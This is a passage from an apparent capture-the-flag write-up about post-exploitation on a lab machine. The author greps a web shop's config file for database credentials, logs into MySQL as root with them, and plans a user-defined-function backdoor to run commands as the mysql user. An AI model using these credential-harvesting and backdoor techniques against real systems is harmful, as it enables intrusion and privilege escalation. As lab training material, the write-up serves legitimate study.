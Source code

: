 From the output of **/etc/passwd** earlier, there was an unusual entry for service user **mysql**. So let us check that out.

## Horizontal Escalation as user mysql
### Extracting mysql database information
```console
ww-data@compromised:/var/www/html/shop$ 
grep -Ri password -B3 -A2 includes/config.inc.php
<$ grep -Ri password -B3 -A2 includes/config.inc.php
  define('DB_TYPE', 'mysql');
  define('DB_SERVER', 'localhost');
  define('DB_USERNAME', 'root');
  define('DB_PASSWORD', 'changethis');
  define('DB_DATABASE', 'ecom');
  define('DB_TABLE_PREFIX', 'lc_');
--
    ini_set('display_errors', 'On');
  }

// Password Encryption Salt
  define('PASSWORD_SALT', 'kg1T5n2bOEgF8tXIdMnmkcDUgDqOLVvACBuYGGpaFkOeMrFkK0BorssylqdAP48Fzbe8ylLUx626IWBGJ00ZQfOTgPnoxue1vnCN1amGRZHATcRXjoc6HiXw0uXYD9mI');
```
### Logging into mysql database
```console
www-data@compromised:/var/www/html/shop$ 
mysql -u root -p
mysql -u root -p
Enter password: 
changethis

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 67
Server version: 5.7.30-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```
And thanks to Ippsec's persistent forward shell, we can log into mysql database.

I did not have an idea how to create a backdoor with mysql service account and I found many posts about user defined functions **(UDF)** on mysql which allows us to execute commands as the user who is running the mysql daemon.
```console
www-data@compromised:/var/www/html/shop/vqmod/xml$ 
ps -ef | grep -i mysql
mysql      1232      1  0 04:55 ?        00:00:22 /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid
```
And the mysql daemon is running as user mysql.

